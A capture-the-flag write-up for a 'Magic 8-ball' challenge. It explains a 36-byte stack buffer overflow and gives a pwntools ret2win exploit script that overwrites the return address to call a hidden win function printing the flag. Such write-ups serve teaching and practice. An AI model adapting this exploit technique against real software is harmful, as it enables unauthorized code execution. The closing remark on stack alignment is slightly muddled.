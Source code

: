 # Magic 8-ball

![chall](challenge.png)
![first-blood](first-blood.png)


# Ret2win

We are given a binary that asks us for a question and responds with random answers, but there is buffer-overflow vulnerabiility in the program because of a wrong buffer size read and the binary holds a function that is never called which will print out the flag. The goal is to exploit the buffer-overflow vulnerability and call the function to get the flag.


## Analysis

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  int v4; // eax
  char buf[64]; // [rsp+0h] [rbp-40h] BYREF

  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  v3 = time(0LL);
  srand(v3);
  printf("What is your question? ");
  read(0, buf, 0x64uLL);
  v4 = rand();
  puts((&answers)[v4 % (unsigned __int64)size]);
  return 0;
}
```

Looking at the decompiled pseudo-code we immediately notice that our input buffer `buf` has a size of `64 bytes` but however the read function call reads in `100 bytes, 0x64 = 100` This means that we have a `36 byte` overflow in the read function call.


### Win function

```bash
    1: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND puts@GLIBC_2.2.5 (2)
     2: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND [...]@GLIBC_2.2.5 (2)
     3: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND [...]@GLIBC_2.2.5 (2)
     4: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND read@GLIBC_2.2.5 (2)
     5: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND [...]@GLIBC_2.2.5 (2)
     6: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND srand@GLIBC_2.2.5 (2)
     8: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND time@GLIBC_2.2.5 (2)
     9: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND [...]@GLIBC_2.2.5 (2)
    10: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND rand@GLIBC_2.2.5 (2)
    29: 0000000000401170     0 FUNC    LOCAL  DEFAULT   15 deregister_tm_clones
    30: 00000000004011a0     0 FUNC    LOCAL  DEFAULT   15 register_tm_clones
    31: 00000000004011e0     0 FUNC    LOCAL  DEFAULT   15 __do_global_dtors_aux
    34: 0000000000401210     0 FUNC    LOCAL  DEFAULT   15 frame_dummy
    45: 0000000000401360     5 FUNC    GLOBAL DEFAULT   15 __libc_csu_fini
    49: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND puts@@GLIBC_2.2.5
    52: 0000000000401368     0 FUNC    GLOBAL HIDDEN    16 _fini
    53: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND system@@GLIBC_2.2.5
    54: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND printf@@GLIBC_2.2.5
    55: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND read@@GLIBC_2.2.5
    56: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_mai[...]
    57: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND srand@@GLIBC_2.2.5
    63: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND time@@GLIBC_2.2.5
    64: 00000000004012f0   101 FUNC    GLOBAL DEFAULT   15 __libc_csu_init
    65: 0000000000401216    23 FUNC    GLOBAL DEFAULT   15 win
    67: 0000000000401160     5 FUNC    GLOBAL HIDDEN    15 _dl_relocate_sta[...]
    68: 0000000000401130    47 FUNC    GLOBAL DEFAULT   15 _start
    70: 000000000040122d   187 FUNC    GLOBAL DEFAULT   15 main
    71: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND setvbuf@@GLIBC_2.2.5
    73: 0000000000401000     0 FUNC    GLOBAL HIDDEN    12 _init
    74: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND rand@@GLIBC_2.2.5
```
Now that we have a buffer-overflow vulnerability, let's see what we can do with it. Looking at the output of `readelf -s | grep FUNC` we see one particular function that stands out and that's the `win` function. Let's see what it does

```c
int win()
{
  return system("cat flag.txt");
}
```

This is exactly what we need, now we can exploit the bufferoverflow vulnerability by overwriting `RIP` and calling the win function.

```python
#!/usr/bin/python3

from pwn import *

#context.log_level = 'debug'

if args.REMOTE:
    p = remote('ggc.tf', 31013)
else:
    p = process('./magic_8ball')

p.recvuntil('What is your question? ')
padding = b"\x90"*72
win_addr = p64(0x0000000000401216)
ret = p64(0x000000000040101a)
payload = [padding, ret, win_addr]
p.sendline(b''.join(payload))
p.interactive()
```
Notice the `ret` gadget before the call to `win_addr`? This is because we have to align the stack (stack alignment) back to 16-byte alignment. The stack pointer should always be a multiple of 8 (divisible by 8 in x64)
